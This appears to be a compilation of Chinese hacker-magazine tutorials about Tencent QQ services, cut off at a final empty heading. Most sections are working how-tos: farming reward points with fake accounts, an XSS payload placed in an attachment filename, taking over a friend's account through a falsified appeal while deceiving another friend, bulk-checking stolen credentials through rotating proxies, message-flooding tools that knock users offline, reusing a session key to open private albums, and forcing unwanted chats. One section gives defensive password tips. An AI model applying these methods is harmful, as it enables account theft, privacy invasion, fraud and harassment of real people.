首先到 signup.qq.com（在这儿可以轻易申到 9 位的 QQ 号，并且申请时不需要填写密保信息）。在这个外国网站申请 3 个 QQ 号（号码越多刷的分就越多），为了方便操作，将这三个新的QQ号和你使用的QQ号互相加为好友，使用这四个QQ号分别到问问中提一个合理的问题，有时会发来信息说需要设置擅长领域后方能提问，我们随便设置一下就可以了。

为了方便大家理解，我把我的大号（也就是需要Q币的号）记为A号，刚申请的3个QQ号分别记为B、C、D号，A号为提问题的号（因为提问的号是不会被封的，所以大家不用担心封号问题），B、C、D号为回答问题的号，首先在A号中提6个问题（规定一天最多提6个，如果你可以提6个以上的话，那就使劲提吧），悬赏为0哦，如图2。注意要提合理的问题，不然会被删的，问题提好后，在B号中进入好友A的问问，并回答问题，如图3，点击问题进入回答，注意每个问题一定要回答两次，而且答案不能相同，回答两次后，再打开A号的问问，会显示有新的回答，点击进入问题，选择最佳答案，因为设置一个最佳答案系统就会给回答者20分的奖励，而且每个问题可以选择两个最佳答案，这就是回答两次的理由了，如图4。点击B的答案选中它，并设为5星，将每个问题的两个最佳答案都选成B号后，B号过一会儿就会收到系统的提示，说你的答案已被采纳，奖励多少分。我们再来转到B的问问，如图5，已经有240分了。再在B号中提6个问题，注意：提完问题后，点击任意问题进入该问题，在“追加悬赏”那里将所有的分数都悬赏了。若有零头，再追加，直到积分全被悬赏了（目的是为了将分全部转到C号中），如图6，在C号中进入好友B的问问，像上面那样每个问答题都回答两次，在B号中将所有问题的两个最佳答案都设为C的回答，这样分都到了C中，再在C号中提6个问题，提好后分别在A号、D号中进入好友C的问题，然后各回答一次，再到C号中将A、D的回答设为最佳，这样刚悬赏的分就给了A、D。再到D中提个问题，将所有分悬赏了，再从A号中进入好友D的问问，回答一次，然后将最佳答案设为A的答案，就这样百转千回，分都转到了大号中去，而且不会被封的，做完这样一个流程后，我们大号的分此时已经很多了，如果你有很多QQ号，那就依次类推，最后分就会像滚雪球一样，越滚越大，到时就大号就可以换很多Q币了！最后我们就可以去换奖品了，但是问问等级必须要到6级以上才能换Q币，没有到6级的可以去“问问学堂”（网址是http://wenwen.soso.com/z/BeginnerHome.htm），把那里的题做完后就是3级了，而且提问回答，每天第一次登录、设最佳答案、回答等操作都是有经验的，这样很快就可以到达6级了，过程也许有些麻烦，但弄好之后，操作就非常简单了，有兴趣的叉子就快试试吧！

- 手机数码
- 电脑网络
- 体育运动
- 时尚生活
- 休闲娱乐
- 其他

- QQ专区
- 数码通讯
- 电脑网络
- 时尚生活
- 运动休闲
- 品牌专区
- 虚拟奖品

- 实物奖品

| 提问 |
| --- |
| 问题标题：如何获得免费Q币 |
| 详细描述： |
| 添加图片 |
| 选择分类：○ 电脑数码>互联网 ○ 电脑数码>网页制作 ○ 电脑数码>浏览共享 ○ 自选分类 |
| 1对1提问：选择接收人 指定特定QQ好友回答你的问题，消耗5分。<br>悬赏积分：0分 您当前的积分是0分 |
| 设为紧急：□ 问题可以获得更多曝光机会，更快获得答案，消耗20积分。<br>QQ匿名：□ 匿名的问题无法在QQ上显示，你的QQ好友看不到这个问题。 |
| 提交问题 |


### QQ 免费建群新机会

老K 教练

腾讯QQ建群要求用户等级必须达到16级或者开通会员才行，可是我等小菜的QQ哪有16级和多余的钱去开通会员，于是应广大用户的需求，免费建群的工具就出来了，“中天QQ建群精灵”大家应该都知道吧，如图1，前几年挺流行的，不过现在已经不适用于QQ2007和QQ2008了。“企业名称”就是QQ群名，大家可能会发现最新的QQ2007、QQ2008已经不支持鼠标右键了，也就是不能查看属性了。那我们要怎么办呢？其实可以使用抓包工具来获取属性值！

QQ2007可以使用WSockExpert来进行抓包，而QQ2008则需要使用另外一款抓包工具Smartsniff进行抓取。Smartsniff不像WSockExpert那样可以选择进程来抓包，而是一次性抓取所有数据包，所以在使用前还请大家关闭其它需要联网的程序，只留下QQ这个程序。

- 第一步：打开 Smartsniff.exe，点击“开始抓包”，如图2。
- 第二步：点击“停止”，抓取到的数据如图3所示。看到其中的“clientkey=”没有？它后面的数据 EC75AB0ACF8E3262BFC4FDA50711930C3D3CAB01DC54F12C7FBEED5773B65F2D 就是关键数据。
- 第三步：找到关键字符串数据后，点右键进行复制，然后粘贴到建群精灵中去，填写好其它的内容，点击“开始建立”就可以了，如图4。

建好群后我们就会收到激活通知，激活后就可以使用了，如图5。

不过使用这种方法建立的群有两个弊端：
- 无法在群用户中搜索到，就是说群主只能主动添加别人
- 一个号只能建一个群，一旦建好后，不可以解散或转让

不过大家有免费的群使用也就应该满足了，如果你使用的是QQ2007，那么直接使用WSockExpert选中QQ进程进行抓包就可以了！

（本文所涉及到的中天 QQ 建群精灵、WSockExpert、Smartsniff 已经收录到光盘中）


图 3

图 4

图 5

### QQ 空间日志流量刷到爆

CJ 也疯狂

最近有很多 MM 要我帮她们刷 QQ 空间的流量，于是我就到网上寻找刷空间流量的工具，通过测试终于发现了一款能用的工具“QQ 日志流量狂人 V1.2 版”，其主界面如图1所示。

- 第一步：输入 QQ 号后点击确定按钮，此时就会读取当前号码的 QQ 空间的第 8 篇日志。
- 第二步：选中在第一步操作中读取出来的某个文章后双击。
- 第三步：点击“开始”按钮后就可以开刷了，如图2。

不过这样操作的话一次只能刷一篇文章，这个软件同时还有一个刷所有日志的功能，不过在没有论坛推广号的情况下这个功能是不能使用的，因为它的按钮是灰色的，而且这个论坛的推广号注册起来相当麻烦。

那有没有办法解决呢？此时我想到了灰色按钮克星这款工具，于是马上到网上下载了一个，打开后的界面如图3所示。点击激活按钮，然后把鼠标移动到 QQ 日志流量狂人的灰色按钮处，结果让人很兴奋，按钮终于可以使用了，如图4。马上输入 QQ 号，点击“刷 QQ 所有日志”，只见所有的空间日志都被刷了起来，想要空间流量的朋友就快来使用一下吧！

（本文所涉及到的 QQ 日志流量狂人 V1.2 版、灰色按钮克星已收录到光盘中）


图 1

图 2

图 3

图 4

### QQ邮箱跨站又来新招

不知道上次和Hackest所写的那篇“邮箱跨站风暴”让大家玩的爽不爽，今天又给大家带来了一个新的跨站漏洞。

#### 一、挖掘过程

这次漏洞的位置是QQ邮箱附件，但是利用方式不是常规的上传附件，需要通过QQ的文件中转站作为媒介。以前挖掘QQ邮箱漏洞的时候我就想过这个地方，但是那时候通用的方式对它无效，后来和杨过测试的时候发现QQ文件中转站对上传文件的验证很是嚣张，于是就想到利用“文件中转站”发送附件给好友的这个功能进行挂马或者钓鱼攻击。这次的漏洞还是比较不错的，对QQ群邮件和单独QQ邮件通杀，同时还可以单独使用。漏洞的原理和PHPWind附件文档名跨站脚本漏洞差不多，其效果图如下：QQ群跨站，如图1所示，QQ个人邮箱跨站，如图2所示，文件提取单独利用，如图3所示。


#### 二、利用方法

说了这么多大家肯定都等不及了吧，下面我就教大家如何利用这个漏洞。首先进入QQ邮箱，点文件中转站，选择上传附件，并自己构造一个附件，如图4。`D:\diaopai<iframe src=http://&#47;&#47;www.baidu.com/%20width=800%20height=800><%2Fiframe>XXS.rar` 就是利用代码，上传即可。上传完毕后刷新一下就可以看见自己伪造的附件了，文件大小是0KB，如图5。点击发送给好友就行了，如图6。可以选择QQ个人和群邮件，发送后的效果就是本文前边所看到的图1、图2、图3。这个漏洞的利用方法非常简单，我就不再啰嗦了。该漏洞只适用于QQ邮箱，至于别的邮箱如何突破就要靠大家努力了。


### 删除系统隐藏程序

牌牌

XP 隐藏了许多系统程序，比如 Windows Messenger，你可以让它变得可见。定位到 `\windows\inf\sysoc.inf`，使用记事本或任何文本编辑器打开，查找“hide”并将其删除（有多个）。现在你可以进入添加删除程序，点击添加删除 Windows 组件，是不是看到很多以前没有的项目呢？嗯，现在你可以删除它们了，不过注意，你需要确定它们的用途后根据自己的需要删除，以免造成 Windows 系统出错。


### 免费使用黄钻饰品，盗取别人空间模块

flyspring & 徐帅

曾几何时，许多小菜都会从网上下载一些专用代码来支起自己美观漂亮的QQ空间，但是腾讯即将把空间升级为5.0，空间升级后的好处有很多，但同样也带来了一个致命的坏处，那就是限制了使用代码。不能使用代码那还怎么装扮空间呢？没关系，现在我就教大家一个小方法，即使不输入代码也能让普通用户使用黄钻饰品，同时还可以把别人个性的模块据为己有。

操作方法很简单，首先在我们电脑中要安装一个下载软件（迅雷、快车、旋风等都可以），我使用的是迅雷。打开一个黄钻用户的QQ空间，如图1，这是我同桌的，都黄钻5级了，有钱人的空间就是不一样啊。在空间里我看到了一个喜欢的挂件，等一会儿我就要让它变成自己的。为了方便，我在桌面上新建了一个文件夹，然后在他空间的任意空白处点击鼠标右键，在弹出的菜单中选择“使用迅雷下载全部链接”，如图2，将所有链接都下载到刚才新建的文件夹中。下载完成后打开迅雷中以“gif”为后缀的文件，寻找自己喜欢的饰品或模块就可以了，如图3。

这个就是我喜欢的挂件，在迅雷中右击该文件，选择“属性”，然后复制其地址（在这里小编再给大家介绍一个更简单的方法，我们可以直接在看到的那个挂件上点击右键，选择“属性”，然后将上面的地址复制下来就可以了），然后进入你的QQ空间中点击“自定义”，选择“新建模块”，新建一个图片模块，如图4，在地址处粘贴上你刚才复制下来的地址，输入验证码并确定，如图5，新建的模块就出来了，我们可以使用鼠标调整其大小，存放在适当的位置，保存后，来看看我的这个挂件和黄钻的有什么区别，如图6。

根据我的测试，大家可以按照这种方法来添加banner、公告栏、花边小店、人参果等等，也可以“盗”取他人空间的个性模块，还在等什么？快去装扮你的QQ空间吧！

qqzone.qq.com/243423031
House全新推出分栏布局

| 风格设置 |
| --- |
| 模块管理 |
| 新建模块 |
| 模式切换 |
| 布局设置 |
| 我的物品 |
| 恢复默认 |

图片地址：可加入一张网络图片，也可以是本地图片大小。


```
新建模块 >> 图片模块
< 返回我的模块

添加标题：雪印
已输入2个字 (最多20个)

添加图片：
图片地址：space_item/org/1/26273.gif

更多设置

验证码：fpqz
验证码

在下面输入一个
[预览] [保存] [取消]
```


### 通过合法途径来偷走你的Q号

不完整的旋律

十一长假，逃离了忙碌的校园，回到家中终于可以悠闲的上网逛朋友的QQ空间了，当来到一个昔日好友的空间时发现她的大多数相册都是需要密码才能进入的，我煞费心思的猜测了好长时间的密码，最终无功而返，在网上搜索了一下破解方法也没找到一个能用的。我静下心来想了想，要得到密码只有两个途径，一是找她要密码，二是利用主人身份去浏览，鉴于我想查看的相册是她极为隐私的部分，找她要密码是不可能的了，看来还得在第二种方法多下下工夫。暴力破解？安装木马？太麻烦了，想到前不久我刚帮一位朋友找回了QQ，所以就决定通过申诉尝试是否能找回我这位昔日好友的密码。

来到QQ找回密码的页面，发现比以前多出了一项内容——查看有无密保，如图1，这就是我们开始的第一步了，查询后可以看到她的密码保护是第一代的，如图2。

这是一个必须条件，如果对方设置了第二代密码保护并添加了手机异常通知，那就没有办法了。“知己知彼，百战不殆”这句话绝对没有错的，因为我要偷的QQ号是我的好友的，所以我知道她的一些基本信息，这有助于我们“申诉找回”她的密码。开始填写申诉，第一步要求填写基本资料和联系方式，姓名当然就填写她的真实姓名，要不然到后面要求好友确认的时候对不上号申诉会被驳回的，联系方式我选的是通过电子邮件联系。点击下一步后要求输入收到的验证码和以前使用过的密码，还有一些经常登录地点的资料信息等，相信多填写一些资料对于我们“找回”朋友的QQ密码自然也会多一些帮助的。因为是好友，所以这些资料我自然是熟悉不过了。再点击下一步，要求回答问题，随便回答，然后点击下一步，进入了我们最关键的一步：填写对方QQ好友的真实资料，如图3。


系统并没有具体要求填写多少个，经过我的测试至少需要填写两个才有成功的可能，我自己自然是一个，还有一个找谁呢？这时我根据自己对这位朋友的了解，在我的QQ好友里找了一番，找了一位在线的她以前的同学，填写完成后点击下一步跳出受理页面，我知道要进入最关键的时刻了。打开自己在好友辅助证实中填写的QQ邮箱，系统已经发来了邮件，如图4。


邮件中提示需要在3个小时内给好友“辅助证实”，这也就是为什么我选择在线好友的原因了。点击邮件中链接地址去登录，要求我们输入好友名字和回执号，回执号可以在你填写的联系方式中的邮箱内找到，如图5。这时需要把回执号发给那位在线的好友，并告诉他“XXX好友的Q被盗了，她让我叫你帮忙证实一下，这是她让我给你的回执号”，一般是不会怀疑的，完成这几项后我们就可以去睡觉了。一觉醒来，打开邮箱查看，成功了，点击邮件中的链接地址去重设密码，然后登录，我想看的相册自然也就不在话下了！


利用这种方法我们还可以用来社工其它的QQ号，具体如何社工就要看大家自由的发挥了！

### 另类QQ扫号大法

Z_HK

我们以前经常使用的天缘QQ扫号工具和QQCHA等一批扫号软件现在都已经被封了，在网上搜索这类软件也找不到既免费又好用的，找到的几个好用的也都是要收费的，小菜们并非职业盗号者，因此没必要扛这样的“投资”，下面我就教大家一个另类的扫号方法。

我们需要用到“QQ空间人气精灵”这款软件，如图1。它曾经在以前的黑客X档案中介绍过，但是那篇文章主讲介绍的是刷QQ空间人气，现在我们要用它来扫QQ号。

双击运行软件，添加搞到的QQ号码，批量登录，把我们想要扫的QQ号导入其中，如图2。方法就和以前介绍的刷QQ空间人气一样，但我们的目的是扫号，顺便也可以刷刷人气，一举两得。为了方便快速，我们可以把图3中的那几个选项都勾上，这样输入完验证码后就会自动确认提交了。

不过这个方法仍然存在一个问题，就是当扫了四、五个号时，会出现“验证码输入有误”的提示，如图4。其实这并不是我们真的输入了错误的验证码，而是腾讯公司对此进行了限制，为了解决这个问题我们还需要一个花刺代理。代理资源很好找，可以到网上搜一搜，我给大家提供一个每日更新IP代理的网站http://www.pass-e.com/proxy，当我们扫号时如果出现了上边的那个错误提示信息换个IP就OK了。

- ☑ 自动提交登录
- ☑ 密码错误不提示
- ☑ 不弹验证错误
- ☑ 登录成功不提示
- ☑ 免费申请QQ号码

QQ空间互联软件


由于“QQ空间人气精灵”并非纯正的扫号软件，所以只能查询QQ密码是否正确，而诸如查询QB、QD、密保等信息仍需要手动查询，这也算是美中不足吧。不过个人感觉“QQ空间人气精灵”比以前使用的扫号软件的扫号速度要快的多。

所谓另类，即不按套路出牌，别人用它来刷空间人气，而我则用它来扫号。最后说一句：学黑需要一个灵活的头脑，不要拘泥于方式，手里有QQ信封的朋友不妨使用这个方法试一试。（本文所涉及到的QQ空间人气精灵、花刺代理已收录到光盘中）

### QQ2008常见攻击方法大揭秘

如今的QQ攻击工具可谓是五花八门，其原理基本上都是利用QQ自身的漏洞（例如QQ语音、场景、刷屏、文件传输等漏洞）向目标发送大量的攻击信息，从而迫使对方下线。对于这种QQ攻击，防火墙一般是无能为力的，因为防火墙认为这是正常的QQ消息，不过大家也不用担心，因为腾讯也一直在修补这类的QQ安全漏洞。每次QQ版本的升级，都会有很多QQ攻击工具随之失效，本文就为大家简单介绍一下QQ2008常见的攻击方法，希望能对你防御QQ的攻击有所帮助。

#### 一、QQ视频弹窗攻击器

攻击方式：视频请求弹窗

该软件的攻击原理是不断发送视频请求，最后导致对方QQ挂掉或死机，攻击步骤如下：首先安装该软件，然后点击“H.P.TQQ视频攻击器.exe”启动软件，启动QQ2008找到要攻击的好友，打开与其聊天的窗口，接下来使用鼠标点击QQ2008工具栏上的“视频聊天”，随之就会弹出视频请求，接着点结束（切记不要关闭此窗口），然后将鼠标移到工具栏“视频聊天”按钮上，如图1。注意要对准按下HOME键，这样软件就开始不断弹出窗口攻击对方了。如果想结束攻击，只需要再一次HOME键即可。注意该软件是使用脚本编写的，所以在工作时请大家关闭其它的程序。


说明：
程序名称：QQ视频请求
程序功能：利用视频弹出使对方QQ挂掉
程序说明：由于本程序使用脚本编写，所以在工作的时候请不要搞错其它程序。
1. 打开该攻击对方的聊天窗口；
2. 将鼠标移动到聊天窗口的工具栏的“视频聊天”选项，点击“视频聊天”弹出视频请求，接着点结束（切记不要关闭此窗口），然后对准该按钮按下HOME键，立即开始弹窗。
结束请再按一次HOME键。


#### 二、QQ炸弹-刷屏器

攻击方式：文字攻击

天涯海角

下载安装该软件，点击“QQ炸弹-刷屏器.exe”运行，然后启动QQ2008，打开想要攻击的QQ好友的聊天窗口，或者展开某个QQ群打开某人的QQ聊天窗口，接下来在“QQ炸弹-刷屏器”中设置攻击频率，例如设置成1000，如图2，然后输入要攻击的语句，点击“攻击”按钮，将鼠标移动到聊天窗口中，然后单击一下就开始攻击对方了，对方会不停的收到你的攻击语句，直到你点击“停止”为止。


#### 三、萝卜QQ轰炸机

攻击方式：文字攻击

萝卜QQ轰炸机是文字攻击类QQ软件中性能最好的一款，它可以轰炸你的QQ好友、陌生人和QQ群，攻击时会不断向对方发送文字，文字的内容可以不同。下载安装萝卜QQ轰炸机后启动该软件，然后运行QQ2008，打开想要攻击的QQ聊天窗口，如果不是你的QQ好友，也没有关系，勾选“直接打开此QQ号”，在右边输入QQ号码，先强制与他聊天，接下来设置轰炸的循环次数（例如100，以后软件就会自动发送100次文字信息），轰炸频率设置为1000毫秒，如图3，或者更过分一点可以设置为500毫秒，也就是一秒钟发送2条，如果再小的话，QQ就不允许了。我们再来输入要攻击的语句，点“添加内容”，轰炸内容就设置好了，建议大家设置多条语句，这样在攻击时就会自动轮流发送了，最后点击“设置OK”，再点“开始轰炸”就会开始攻击对方了，轰炸的时候不影响你跟其他人聊天的。

萝卜QQ轰炸机还能攻击QQ手机用户，运行该软件，设置轰炸的循环次数（例如1000），设置轰炸频率500毫秒，再输入攻击语句，点“添加内容”，然后打开在线的QQ手机用户并与其聊天，点“设置OK”，最后点击“开始轰炸”就可以攻击了。


#### 四、风云QQ攻击器

攻击方式：视频请求弹窗

这是一款利用QQ视频请求弹窗进行攻击的软件，它采用了鼠标模拟技术，自动点击、自动取消，以此循环来达到攻击的目的，使用方法如下：首先设置屏幕分辨率为1024×768，然后启动“风云QQ攻击器”和QQ2008，在QQ中打开想要攻击人的聊天窗口，移动聊天窗口（注意不要改变其大小），将该窗口与“风云QQ攻击器”最上部的界面拼接起来，要相互吻合，如图4，由于程序采用了鼠标模拟技术，所以需要有个准确的位置，以上两部分必须吻合。然后点击“开始攻击”，就会不断弹出视频聊天请求窗口，从而开始攻击对方，此时鼠标将无法移动，需要按F3停止后才可以，如果要停止攻击的话，按F3就行了。


#### 五、QQ连发器2008增强版

攻击方式：文字攻击

该软件支持新旧版QQ和群消息发送，可以同时向多人发送，支持多文本发送，连发送时间都可以自行设置，使用方法如下：启动QQ2008，打开想要攻击人的聊天窗口（可以是临时会话窗口），点击“获取”，在上面的空白处就会显示将与谁交谈，以后连发器就会攻击此人，如图5。如果攻击时希望发送不同的内容（支持十个不同文本发送），则点击“多文本发送”，于是右边就会弹出“文本一”-“文本九”的窗口，在里面输入不同的文本，添加文本时要注意删除“文本”二字，文本为空者以后会跳过不发送，接下来勾选“连发间隔时间”，设置为500ms，点击“连发”，就开始连续不断的攻击对方了。

（本文所涉及到的QQ视频弹窗攻击器、QQ炸弹-刷屏器、萝卜QQ轰炸机、风云QQ攻击器、QQ连发器2008增强版已收录到光盘中）

### 看我不需密码进入加密空间或相册

作者：ddjmk


想必大家对好友或MM的QQ加密空间或加密相册都非常感兴趣吧，但是没有正确的密码是无法看到里边的东西的，不过大家不用这么灰心，小菜我本着共享的原始黑客精神就来教教大家如何不需要密码也能进入加密的空间或加密相册。

首先进行一下准备工作，不需要任何工具，只要请你的“目标”访问他自己的QQ空间，并请他在访问的时候把跳转之前的地址用快捷键Ctrl+C复制下来就行了（小编特别提醒大家，这个地址非常难截取，小编也是试了无数次才搞定的），如图1。

复制下来后让对方把这个地址发给你，比如我刚得到的“目标”的QQ空间地址是 “http://imgcache.qq.com/qzone/jump.html#zzpanelkey=59068C7ECCA0D795419234C0DB96ED952EF9F2E2B4D97CC8E00B49ED9DA6BE8D&zzpanlelin=860509514&url=http%3A%2F%2Fuser.qzone.qq.com%2F860509514”，这里大家一定要注意，是跳转前的地址而不是进入后的地址，把上面“目标”发给你的地址复制到IE的地址栏并回车，我们就会发现自己已经得到目标空间的最高权限了，如图2（小编再次提醒大家，这段地址代码是有时效性的，最好是拿到代码当时就使用，过了一定的时间它是会失效的）。有了最高权限，接下来要看加密相册就不用我说了吧！

先来看看我朋友的图标情况，虽然开通的图标也不少，但确实没有CF（穿越火线）的图标，如图1。


我们打开“辉哥CF图标点亮器”（名字不错，和我的真名相同，呵呵- -！），如图2。

打开后，输入QQ号和密码（这里大家需要特别注意，这个QQ号必须要在广东一区有号，没有的话就去创建一个吧，不然无法点亮图标的），然后点击“点亮图标”按钮，如图3。来看看效果怎么样，如图4，已经成功的点亮了。还等什么，快去点亮你的图标吧！

（本文所涉及到的辉哥CF图标点亮器已收录到光盘中）


### 菜鸟式纯操作破解QQ聊天

小菜们是否曾遇到过这样的事情，想跟某个MM聊天但她却不加你为好友，或者添加其他人为好友时被对方拒绝，像这样的事我就遇到过好多次，可从网上下载的那些强制聊天器不是有病毒就是根本不能用，下面我就向各位小菜介绍一个非常简单的方法来实现强制聊天的目的。这个方法可是我花了好长时间才想出来的哟，它不需要任何工具，只是简单的操作就可以了。

我们把“http://netbar.qq.com/samebarlist/user_talk.shtml?v=1&uin=475418930&site”这个网址复制到浏览器的地址栏，如图1，它的功能就是连接对应的QQ号的聊天窗口，我们按下回车键提交后就可以弹出和对方（475418930）聊天的窗口了，如图2，小菜们只需要把上面网址中的QQ号（475418930）更改成对方的QQ号码就可以了，操作够简单吧，这样就能轻松的绕过需要对方同意后才能添加为好友然后聊天的流程了。

需要注意的是，QQ会弹出要求我们输入验证码后才能继续操作的窗口，如图3，虽然我们按照提示输入验证码后就可以了，但这难免会浪费我们的时间，如何解决这个问题呢？我们可以在网址的后面添加一个“=同一网吧”，这样就可以很好的解决这个问题了（只针对在网吧聊时出现的问题），到此关于QQ聊天的小技巧我就介绍完了，希望对小黑们能有所帮助。


### 拿什么拯救你——我的QQ

QQ现在已经成了我们生活、工作、交流中不可或缺的一个工具，也正是如此，很多人都盯上了它，于是各种QQ盗号木马层出不穷。那么我们应该拿什么来拯救我们的QQ呢？本文我就谈谈自己的一些经验，就目前来讲，盗号无非有两种方法，使用盗号木马或是使用社会工程学，我将着重谈一下盗号木马。

By-Hver

#### 一、变态密码很强大

##### 1、极品减号“-”

记得在07年第10期杂志中有篇文章是介绍另类QQ密码的，也就是使用大写的英文O和数字0组成的密码，这种密码在网页上用眼睛看是很难分辨出英文和数字的，可不久后破解工具就随之而出了。我个人认为，密码安全还是要注意

**QQ宝典**

一些不起眼的小细节。我就发现无论是VVQQ大盗、金狐QQ大盗，还是极限居QQ大盗，在截取到QQ号和密码并发送到网站上时，都有一个相同的特点，就是在区分QQ号和密码时都会用到几个减号来间隔，如图1。


正是这几个不起眼的减号引起了我的思考，如果我们在QQ密码前也加入一个减号的话，如图2，那么无论是从网上截取还是使用扫号软件处理，则都会忽略掉我们在密码前的减号，如图3，这样一来我们的QQ号就相对安全多了。


看到这儿，可能有小菜要问了：“为什么一定要把减号放在密码的前面呢？放在后面不可以吗？”放在后面当然也是可以的，但是从安全的角度来看，这样做并不好，因为如果把减号放在密码后面的话，虽然在网页上看不出什么破绽，但是盗号者如果使用邮箱接收呢？要知道邮箱收信的格式是[123456789--123456789]，那么你的减号不就暴露无遗了吗？

##### 2、变态输入防木马

大多数木马程序都是通过记录键盘输入来盗取密码的，相应的防范方法有两种：乱序输入法和软键盘输入法。什么是乱序输入法呢？假如我们的密码是“12345”，我们就先输入“1235”，然后再把光标移到空缺的地方，也就是密码的“4”的地方再输入“4”，这样盗号木马所截取到的密码也就变成“12354”了。

软键盘输入法也叫小键盘输入，从2005Beta3版本以后，QQ就采用了国际先进的nProtect（键盘加密保护技术），但随着盗号木马的不断更新，有许多盗号木马都可以破坏nProtect技术了，这就导致了用户在输入QQ密码时失去了保护，如果我们十万火急需要登录QQ，别忘了最老土而又最安全的软键盘输入（除非那不是盗号木马，而是远程控制木马，并且在监视着你的屏幕），也就使用密码输入框旁的小键盘，如图4。


注意，在软键盘上同样也区分大小写。另外，我们也可以点击输入法上的小键盘图标，调出软键盘，如图5。


#### 二、超长Q号骗过木马

“545091”，哇，是六位的QQ号呀，六位数的QQ号虽然很酷、很炫，在朋友面前很有面子，但是身后却也隐藏着巨大的危机，因为目前大多数的盗号木马只盗取10位数以下的QQ号。

现在常见的QQ号一般都是八九位的，七位、六位、五位的那都是精品或极品，很是诱人的，一旦被盗号木马截取到了密码，没有一套完整的密码保护，那你就别指望什么了，怎样做才能让自己的QQ号骗过木马的眼睛呢？我有一个好办法，就是登录QQ的时候，在输入QQ号的地方先输入1个零，然后再输入你的QQ号，如图6，这样既不会影响QQ的正常登录，又可以骗过盗号木马的眼睛，何乐而不为呢？


#### 三、让社工无处可钻

如果说，最安全的一台计算机是已经拔了插头的计算机，那么社会工程师就是说服对方打开计算机的那个人了。可以说社会工程学的隐形攻击无处不在，小菜们要如何才能保护好自己的敏感信息呢？

##### 1、网吧防社工

在网吧上网可不像是在家中，自己的网页浏览记录只有自己知道，在网吧上网的浏览记录是不会被还原工具删除的，这样我们浏览的一些网页信息就有可能会被下一个使用这台电脑上网的人所利用，对方可以从这些网页下手。比如一些需要登录的博客，在登录时会提示我们“是否保存密码？”我们应该选择不保存密码，虽然在下次登录时还要输入一次密码，但是这样就不怕被别人利用了，不然攻击者就会借此一步步的寻找关联的敏感信息，从而获取你QQ的密码。在离开网吧时，我们还要记得把自己的浏览记录和QQ聊天记录全删除掉并重启电脑。

##### 2、QQ防社工

腾讯在用户注册一些业务时，都会让用户输入自己的个人信息，比如生日、真实姓名、用户所在地等等，如果我们设置的密码和这些有关联的话，最好还是改一下吧。这里我给大家举一个例子，有一个叫刘佳杰的人，他的生日是1994-1-17，属鸡，他使用自己的[名字]+[生日]作为密码，也就是liuji1994117。他在申请QQ空间时，将自己的个人信息如实的填了上去，但是没有填出生年，他认为这样很安全。当被恶意攻击者看到后，从QQ空间资料上就可以得到他的姓名和出生日月。虽然没有出生年份，但是他通过了别的方法知道了这个人是属鸡，简单计算一下，属鸡的可能只有三个年份：1993、1981和1969，可他又是1-17出生的，按照习惯一月出生的人的生肖应该是去年的，也就是1994、1982和1970，然后攻击者一个个的去试，最终就会试出这个人的密码了。我举这个例子是想说明，尽量不要设置与实际生活有关联的密码，也不要在网上公布自己太多的敏感信息，这些信息对于社会工程师来说，都是决定成败的关键。

### 两条在网吧实用的QQ会员功能

txcbg

很多玩黑的小菜都开通了QQ会员功能，除了能点亮几个没什么实际作用的图标外，其实还有一些会员功能是比较实用的，今天我就给那些经常在网吧上网的朋友介绍两个非常实用的功能。

#### 一、表情漫游

如果是在自己的电脑上保存QQ自定义表情当然很简单，但是在网吧里就不那么容易了，因为网吧的电脑都安装了还原系统，一关机保存的东西就没有了，而如果你是QQ会员的话，就可以使用表情漫游功能来随时保存自定义表情了。表情漫游功能为我们提供了QQ自定义表情服务器的自动上传和下载功能，只需要将每组表情的“本组表情漫游”勾选上，就可以在家中、在公司、在网吧完全随心所欲的使用收藏的表情了。对于已经设置自动漫游的分组，当我们更换电脑登录QQ后，系统将会自动下载你已经上传过的表情，无论何时何地我们都可以轻松使用自己喜欢的表情了，如图1。


图1

#### 二、聊天记录漫游

对于经常泡网吧的朋友来讲，保存聊天记录也是一件麻烦的事情，如果你是QQ会员，借助聊天记录漫游功能就可以轻松的解决这个问题了。聊天记录漫游就是把你的聊天记录保存到腾讯的服务器上，目前聊天记录漫游又分两个小功能：1、漫游全体好友最近一个月聊天记录，当设置了此种漫游后，系统将默认为你保存全体好友最近一个月的聊天记录；2、永久漫游指定好友聊天记录，当设置了此种漫游后，系统将默认永久为你保存与该好友的聊天记录，VIP等级越高，可设置永久保存的好友数也就越多。要想设置漫游全体好友最近一个月聊天记录，我们可以随便打开和某个QQ好友的聊天窗口（不能是群聊天窗口），然后点“聊天记录”按钮，在右边出现的聊天记录窗口中点击“漫游的聊天记录”，然后勾选上“漫游全体好友最近一个月记录”就可以了，如图2。


图2

如果要永久漫游指定好友的聊天记录，就可以打开和该好友的聊天窗口，同样点击“聊天记录”按钮，在右边出现的聊天记录窗口中点击“漫游的聊天记录”，然后勾选“永久漫游此好友记录”就可以了（当然了，我们可以设置“永久漫游此好友记录”的人数是有限的，QQ VIP的等级越高，可以设置的人数就越多，VIP1可以设置5人，VIP6可以设置30人），如图3。


图3

本文并不是建议大家都会去开QQ会员，只是如果我们已经花钱开了，而且还经常泡网吧的话，那就不妨使用我上面所介绍的那两个功能吧，反正不用白不用。

### 对“零工具反彩虹QQ隐身”的补充

SWAN

彩虹QQ的工作原理如下：当用户改变状态的时候，会向腾讯服务器发送关于用户变更为何种状态的数据包，然后服务器再转发给用户好友，假如其好友套上一个具有截获并且分析数据包功能的“外壳”，就能轻易知道用户变为何种状态了！我们举个通俗点的例子来说明：丑男我对服务器说我要伪装帅哥了，服务器然后就对我朋友说“你朋友要伪装成帅哥了”，那么以后我再怎么伪装自己，朋友肯定都会知道我是丑男！目前为止，我们可以利用以下三点来防止彩虹QQ的显隐身功能。

#### 1、变更地理位置的显示状态

原理：这是彩虹QQ的一个BUG，把变更地理位置的显示状态的数据包错误认为离线的数据包。我们以名为swan的QQ号为参照QQ，从名为“测试号1”的QQ上来看其状态情况，如图1。


图1

现在，我在个人设置那里改变SWAN的地理位置的显示状态，如图2。如果之前是打勾的就改为不打勾，反之亦然，再来看一下其状态，已经显示为“对方不在线”了，如图3。


图2


图3

原理：这样会致使彩虹QQ端对数据包识别产生困难（测试同上，可选择性的更改系统时间）。

#### 2、不停的变更QQ的在线状态

在上线—离线—隐身这三者间进行连续切换，大概切换四五次或者更多。

#### 3、使用新版QQ，比如QQ2009（测试方法同上）。

原理：软件方加密了数据包。


### 突破QQ绿钻权限 让空间唱起来

☆ King 聚尘


